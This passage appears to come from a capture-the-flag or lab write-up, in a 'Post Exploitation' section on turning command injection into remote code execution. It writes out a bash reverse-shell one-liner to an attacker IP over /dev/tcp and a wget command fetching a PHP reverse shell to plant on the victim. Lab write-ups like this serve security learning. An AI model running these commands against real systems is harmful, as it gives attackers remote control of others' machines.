 ## Post Exploitation

- Using command injection to create RCE
- Here are 2 method, I will recommend to use second one

1. ``` bash -c 'bash -i >& /dev/tcp/10.10.17.145/1337 0>&1'```

![](./IMG/23.png)

![](./IMG/24.png)
2. (**Recommend**)Create a php reverse shell file and upload it to victim. ``` wget http://10.10.17.145:9797/php-reverse-shell/php-reverse-shell.php```
